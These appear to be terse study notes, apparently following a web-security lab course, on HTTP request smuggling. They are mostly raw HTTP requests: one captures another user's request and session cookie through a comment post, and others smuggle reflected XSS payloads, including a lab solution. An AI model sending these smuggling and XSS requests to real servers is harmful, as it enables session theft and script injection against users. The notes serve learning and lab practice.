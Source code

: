 ```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

 another user's request will be appended to the smuggled request

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
...
```

### Using HTTP request smuggling to exploit reflected XSS

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

lab：

```
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```
